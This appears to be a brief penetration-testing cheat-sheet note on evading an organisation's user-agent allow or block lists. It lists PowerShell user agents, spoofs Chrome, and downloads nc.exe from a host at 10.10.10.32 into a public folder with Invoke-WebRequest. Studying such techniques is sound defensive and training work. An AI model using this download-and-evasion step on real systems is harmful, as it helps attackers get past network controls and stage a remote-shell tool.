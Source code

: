 if organisation has a white list of user agents, or black list of user agents...


Listing out user agents
```powershell-session
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Set User Agent as Chrome 
```
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```

```powershell-session
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

